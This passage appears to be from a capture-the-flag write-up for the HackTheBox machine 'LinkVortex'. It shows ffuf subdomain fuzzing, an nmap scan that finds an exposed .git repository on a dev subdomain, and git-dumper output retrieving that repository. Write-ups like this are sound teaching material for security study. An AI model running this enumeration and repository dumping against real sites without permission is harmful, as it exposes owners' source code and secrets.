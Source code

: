 ```bash
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 76ms]
:: Progress: [4989/4989] :: Job [1/1] :: 1169 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
Fuzzing for subdomains, we notice `dev.linkvortex.htb`
![](/assets/im/assets/img/img_linkvortex/linkvortex-1744530479042.png)
We're greeted by a Launching Soon banner and nothing interesting.
Let's do a simple script scan on this subdomain.
```bash
 nmap -sC -sV -p 80 dev.linkvortex.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-13 17:48 AEST
Nmap scan report for dev.linkvortex.htb (10.10.11.47)
Host is up (0.033s latency).
rDNS record for 10.10.11.47: linkvortex.htb

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd
| http-git:
|   10.10.11.47:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/TryGhost/Ghost.git
|_http-title: Launching Soon
|_http-server-header: Apache
```
We find a git repository, let's dump this with `git-dumper`
```bash
git-dumper $TARGET/.git ./git-dump/
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
```